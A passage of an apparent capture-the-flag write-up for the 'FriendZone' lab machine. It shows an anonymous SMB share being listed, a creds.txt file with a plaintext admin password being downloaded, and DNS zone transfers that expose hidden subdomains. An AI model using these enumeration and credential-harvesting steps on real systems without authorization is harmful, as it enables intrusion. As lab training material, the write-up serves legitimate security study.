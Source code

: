```
[root@kali FriendZone ]$ smbclient //$TARGET/general
Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan 16 21:10:51 2019
  ..                                  D        0  Wed Jan 23 22:51:02 2019
  creds.txt                           N       57  Wed Oct 10 01:52:42 2018

                9221460 blocks of size 1024. 6226380 blocks available
smb: \> get creds.txt
getting file \creds.txt of size 57 as creds.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
```
The creds file contains admin credentials.
```
[root@kali FriendZone ]$ cat creds.txt            
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```
We can guess this credentials are related to some sort of web service, so let's start enumerating port 80/443.
As we open port 80 we can see a picture with a statement ```Email us at: info@friendzoneportal.red``` changing the host header/enumerate directories does not show anything, so we can suppose that all the services are running over https (443).  
Before jump into the enumeration of port 443, since port 53 is opened we want to try to perform a DNS zone transfer for two zones: friendzoneportal.red (shown on http page) and friendzone.red (shown in the certificate issue).  
```
[root@kali FriendZone ]$ dig axfr friendzone.red @$TARGET         

; <<>> DiG 9.17.21-1-Debian <<>> axfr friendzone.red @10.10.10.123
;; global options: +cmd
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.         604800  IN      AAAA    ::1
friendzone.red.         604800  IN      NS      localhost.
friendzone.red.         604800  IN      A       127.0.0.1
administrator1.friendzone.red. 604800 IN A      127.0.0.1
hr.friendzone.red.      604800  IN      A       127.0.0.1
uploads.friendzone.red. 604800  IN      A       127.0.0.1
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 40 msec
;; SERVER: 10.10.10.123#53(10.10.10.123) (TCP)
;; WHEN: Tue Jan 18 14:54:23 CET 2022
;; XFR size: 8 records (messages 1, bytes 289)

[root@kali FriendZone ]$ dig axfr friendzoneportal.red @$TARGET        

; <<>> DiG 9.17.21-1-Debian <<>> axfr friendzoneportal.red @10.10.10.123
;; global options: +cmd
friendzoneportal.red.   604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzoneportal.red.   604800  IN      AAAA    ::1
friendzoneportal.red.   604800  IN      NS      localhost.
friendzoneportal.red.   604800  IN      A       127.0.0.1
admin.friendzoneportal.red. 604800 IN   A       127.0.0.1
files.friendzoneportal.red. 604800 IN   A       127.0.0.1
imports.friendzoneportal.red. 604800 IN A       127.0.0.1
vpn.friendzoneportal.red. 604800 IN     A       127.0.0.1
friendzoneportal.red.   604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 36 msec
;; SERVER: 10.10.10.123#53(10.10.10.123) (TCP)
```